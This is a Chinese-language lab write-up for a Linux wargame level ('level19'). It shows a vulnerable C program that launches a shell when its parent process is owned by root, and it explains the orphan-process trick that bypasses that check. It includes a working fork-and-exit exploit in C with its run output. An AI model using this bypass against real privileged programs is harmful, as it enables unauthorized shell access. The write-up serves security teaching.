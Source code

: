 # <center>Linux下漏洞分析入门</center>

## 实验概述

### 【目的】
在非root权限下，运行level19，得到任意代码执行
### 【环境】
Linux
### 【工具】
gcc
### 【原理】
孤儿进程
在操作系统领域中，孤儿进程指的是在其父进程执行完成或被终止后仍继续运行的一类进程。在类UNIX操作系统中，为避免孤儿进程退出时无法释放所占用的资源而僵死，任何孤儿进程产生时都会立即为系统进程init或systemd自动接收为子进程，这一过程也被称为“收养”（英语：re-parenting）[1]。在此需注意，虽然事实上该进程已有init作为其父进程，但由于创建该进程的进程已不存在，所以仍应称之为“孤儿进程”。
## 实验步骤

### 【步骤】
先查看源代码
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```
其中，snprintf()是sprintf()的安全版本，可以控制要写入字符串的长度，预防缓冲区溢出。
尝试直接运行
```
$ ./level19
You are unauthorized to run this program
```
可以看到，直接运行行不通。
这里程序先调用getppid()获取父进程id，通过查找`/proc`下该进程是否属于root，如果是root，就可以执行shell。
因为本题要求在非root环境下运行，故不能直接用sudo或切换到root账户来执行。
这里要提到的是，一个进程为孤儿进程时，就会被init进程接管，而init进程的权限是root，所以当level19为孤儿进程时，便可通过父进程是否为root权限的检查。

这里我们编写一个c程序来调用程序，并杀死父进程，使程序为孤儿进程，让init进程接管，从而绕过检查。
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
    pid_t p;
    p = fork();
    if (p == 0) //子进程调用
    {
        sleep(1);
	char *args = {"/bin/sh","-c","echo u got it > test"};
	execv("./level19",args);
	return 0;
    }
    else if(p > 0) //如果是父进程，直接返回，使子进程成为孤儿进程
        exit(0);

    return 0;
}

```
```
$ gcc explevel19.c -o ex19
$ ./ex19
$ cat test
u got it

```
### 【总结】
本次实验主要了解了Linux的fork机制。
